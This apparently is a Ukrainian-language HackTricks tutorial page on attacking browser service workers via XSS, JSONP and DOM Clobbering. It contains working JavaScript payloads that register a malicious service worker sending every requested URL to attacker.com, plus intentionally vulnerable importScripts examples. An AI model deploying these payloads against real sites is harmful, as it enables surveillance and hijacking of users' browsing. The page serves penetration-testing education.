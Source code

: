 # Зловживання службовими працівниками

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

**Службовий працівник** — це скрипт, який виконується вашим браузером у фоновому режимі, окремо від будь-якої веб-сторінки, що дозволяє використовувати функції, які не потребують веб-сторінки або взаємодії з користувачем, тим самим покращуючи можливості **офлайн-роботи та фонової обробки**. Докладну інформацію про службових працівників можна знайти [тут](https://developers.google.com/web/fundamentals/primers/service-workers). Зловмисники можуть отримати контроль над взаємодією жертви з усіма сторінками в межах цього домену, експлуатуючи службових працівників у вразливому веб-домені.

### Перевірка наявних службових працівників

Існуючі службові працівники можуть бути перевірені в розділі **Службові працівники** вкладки **Застосунок** у **Інструментах розробника**. Інший метод — відвідати [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) для більш детального перегляду.

### Push-сповіщення

**Дозволи на push-сповіщення** безпосередньо впливають на здатність **службового працівника** спілкуватися з сервером без прямої взаємодії з користувачем. Якщо дозволи відхилені, це обмежує потенціал службового працівника становити постійну загрозу. Навпаки, надання дозволів підвищує ризики безпеки, дозволяючи отримувати та виконувати потенційні експлойти.

## Атака створення службового працівника

Щоб експлуатувати цю вразливість, вам потрібно знайти:

* Спосіб **завантажити довільні JS** файли на сервер і **XSS для завантаження службового працівника** завантаженого JS файлу
* **Вразливий JSONP запит**, де ви можете **маніпулювати виходом (з довільним JS кодом)** і **XSS** для **завантаження JSONP з корисним навантаженням**, яке **завантажить шкідливого службового працівника**.

У наступному прикладі я збираюся представити код для **реєстрації нового службового працівника**, який буде слухати подію `fetch` і **надсилати на сервер зловмисника кожну отриману URL-адресу** (це код, який вам потрібно **завантажити** на **сервер** або завантажити через **вразливу JSONP** відповідь):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
І це код, який **зареєструє робітника** (код, який ви повинні мати можливість виконати, зловживаючи **XSS**). У цьому випадку **GET** запит буде надіслано на сервер **зловмисника**, **повідомляючи**, чи була **реєстрація** служби робітника успішною чи ні:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
У випадку зловживання вразливим JSONP кінцевим пунктом ви повинні помістити значення всередину `var sw`. Наприклад:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Є **C2**, присвячений **експлуатації Service Workers**, під назвою [**Shadow Workers**](https://shadow-workers.github.io), який буде дуже корисним для зловживання цими вразливостями.

**Директива кешу на 24 години** обмежує термін дії шкідливого або скомпрометованого **service worker (SW)** максимум 24 години після виправлення вразливості XSS, за умови онлайн-статусу клієнта. Щоб мінімізувати вразливість, оператори сайтів можуть знизити час життя (TTL) скрипта SW. Розробникам також рекомендується створити [**kill-switch для service worker**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) для швидкої деактивації.

## Зловживання `importScripts` у SW через DOM Clobbering

Функція **`importScripts`**, викликана з Service Worker, може **імпортувати скрипт з іншого домену**. Якщо ця функція викликається з використанням **параметра, який зловмисник міг би** змінити, він зможе **імпортувати JS-скрипт зі свого домену** і отримати XSS.

**Це навіть обходить захист CSP.**

**Приклад вразливого коду:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### З DOM Clobbering

Для отримання додаткової інформації про те, що таке DOM Clobbering, перегляньте:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Якщо URL/домен, який SW використовує для виклику **`importScripts`**, **знаходиться всередині HTML-елемента**, **можливо модифікувати його через DOM Clobbering**, щоб змусити SW **завантажити скрипт з вашого власного домену**.

Для прикладу цього перегляньте посилання на довідку.

## Посилання

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
